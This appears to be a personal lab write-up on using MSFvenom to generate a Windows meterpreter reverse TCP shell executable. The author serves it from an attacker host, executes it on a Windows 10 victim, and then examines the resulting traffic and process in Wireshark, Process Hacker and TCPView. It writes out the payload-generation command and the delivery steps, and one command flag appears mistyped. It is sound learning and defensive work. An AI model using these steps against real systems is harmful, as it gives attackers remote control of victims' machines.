 # MSFvenom

![Pasted image 20240502094200](https://github.com/lm3nitro/Projects/assets/55665256/92706414-50e2-4614-85b6-e2b7560e74d7)

MSFvenom is a versatile tool in the Metasploit Framework used for generated various types of payloads and shellcode. It allows penetration tested and security researchers to create custom payloads for exploitation, bypassing defenses, and gaining remote access to target systems. 

Key Features:
+ Payload Generation
+ Payload Format
+ Customization

### Scope:
I will install and configure MSFvenom to create a customer reverse TCP shell payload on the attacking host (Linux OS) that will then be downloaded and executed by the victim host (Windows 10 OS). I will then analyze the traffic using various tools to see how the connection looks like and the payload execution at the packet level. 

### Tools and Technology:
Linux OS, Win 10 OS, Wireshark, Process Hacker, TCPview and MSFvenom

## Getting started with MSFvenon

Once MSFvenon is installed and running, using the -h lists the available options

```
msfvenom -h
```

![Pasted image 20240501131915](https://github.com/lm3nitro/Projects/assets/55665256/ac798fe5-2b2b-445f-903c-54aeec52edc1)

Listing the -l will show available payloads:

```
msfvenom -l payloads
```

![Pasted image 20240501132226](https://github.com/lm3nitro/Projects/assets/55665256/15af3e0c-0708-439c-ac06-af170979d19c)

Here we can see the total amount of payloads available at the time of this writing: 1475

```
msfvenom -l payloads | wc -l
```

![Pasted image 20240501132317](https://github.com/lm3nitro/Projects/assets/55665256/dab59089-4138-4765-9085-f053d88371e8)

## Custom payload for Windows:

I will be creating a custom payload for my Windows 10 host for testing and analysis. I be using the 'meterpreter_reverse_tcp'. This is a reverse tcp shell. A reverse tcp shell is used to establish a network connection from a compromised target back to the attacker's machine, which in turn facilitates remote control and command execution over the network. 

```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.91.134 lport=4444 -4 exe -o lm3nitro_shell.exe
```

![Pasted image 20240501140620](https://github.com/lm3nitro/Projects/assets/55665256/061f31b8-12a7-4832-bfff-aaea596191b5)

Once that was complete, I also verified my file information:

```
file lm3nitro_shell.exe
```

![Pasted image 20240501133716](https://github.com/lm3nitro/Projects/assets/55665256/94f63484-e1c7-4360-88af-2d58b2495fac)

I then used the exploit/multi/handler which provides a listening service to interact with the payload

![Pasted image 20240501133901](https://github.com/lm3nitro/Projects/assets/55665256/a912bfbf-372b-40c0-8dff-119db6fc56d5)

I configured the exploit/multi/handler to use with the custom payload. 

![Pasted image 20240501134438](https://github.com/lm3nitro/Projects/assets/55665256/ca2462d0-a320-4df5-8de3-ea1b3791b3a2)

I now needed a web server to serve the payload. As seen below, I chose it to be locally (192.168.91.134) on port 8000:

![Pasted image 20240501135301](https://github.com/lm3nitro/Projects/assets/55665256/171f630b-c618-447b-9d94-2096cee9be09)

## Downloading the payload:

Once everything was in place, I went to the Windows host, navigated to 192.168.91.134:8000 as specified above and downloaded lm3nitro_shell.exe I had previosuly created. 

![Pasted image 20240501135710](https://github.com/lm3nitro/Projects/assets/55665256/303251b2-3d73-4aff-823a-84f7bda6f9b9)

Using the following command on the attacking host I was able to see that the Windos host had indeed connected in real time:

```
python3 -m http.server
```

![Pasted image 20240501140151](https://github.com/lm3nitro/Projects/assets/55665256/60325139-29da-4ecd-935f-1b620351cd19)

I also ensured that I had Wireshark running and capturing the traffic on the network. Here we can see the traffic from the download:

![Pasted image 20240501135931](https://github.com/lm3nitro/Projects/assets/55665256/c444cd3f-6354-4126-9a99-857617248a4c)

After having downlaoded the executable, I then executed it:

![Pasted image 20240501140042](https://github.com/lm3nitro/Projects/assets/55665256/a6a5713d-2966-45d3-a7d6-d5a0bfdc43bb)

On the attacking host ( MSFvenom) I could see that it had been executed and details on the host regarding the user, OS version/build, etc. Also, using the shell command allowed me to successfully remotely connect to the target host over the network:

![Pasted image 20240501144904](https://github.com/lm3nitro/Projects/assets/55665256/afbfd0d0-7bef-4d2a-a5ce-62afd0217761)

## Traffic analysis of the payload:

Going back to Wireshark, I can see when the payload was executed. I was able to see the 200 ok when the target host navigated to the IP and port:

![Pasted image 20240501141911](https://github.com/lm3nitro/Projects/assets/55665256/810d5f2f-9b7f-4116-8d73-a41915740313)

I also used Process Hacker. Process Hacker is a free tool for Windows that helps manage and monitor what is happening. Windows by default comes with Task Manager, however, this is a more enhanced version of that. It provides more detailed information about running programs, CPU and memory. 

Taking a look at the lm3nitro_shell.exe that is running, I was also able to see the location, command line, time that it has running, and the Parent:

![Pasted image 20240501143036](https://github.com/lm3nitro/Projects/assets/55665256/c3d3bf25-9cf7-448d-8635-a7812a97ba06)

I also used TCPView (utility within Sysinternals) which lists all active network connections, showing the local and remote addresses, ports, protocols, and status. Here I could see that the connection was establish to the attacker IP on port 4444:

![Pasted image 20240501143308](https://github.com/lm3nitro/Projects/assets/55665256/af6dba33-5efe-45a4-9c29-af57d07e5f32)


### Summary:

I was able to install and configure MSFvenom and use it to create a reverse tcp shell payload which was then downloaded by the victim (Windows 10 PC) to create a remote connection to it. While this was being downloaded and executed by the victim I had Wireshark running in the background to capture the traffic and have a look at how this malicious traffic looks at the packet level.  

Having done this allowed me to get a better understanding on attackers and a view into the malicious payloads that are readily available on tools such as MSFvenom. I was able to see how these payloads can be used to exploit vulnerable targets. I was able to further explore attack vectors and defense evasion techniques all in a safe and controlled environment. 

Overall, MSFvenom is a great tool because it really simplifies the creation of custom payloads for penetration testing and security assessments. I was able to generate malicious code tailored to my specific target. MSFvenom allows security professionals and ethical hackers to simulate real-world attacks and scenarios. One thing that I like is that it can be integrated with tools sucks as Metasploit to make it even more powerful. 
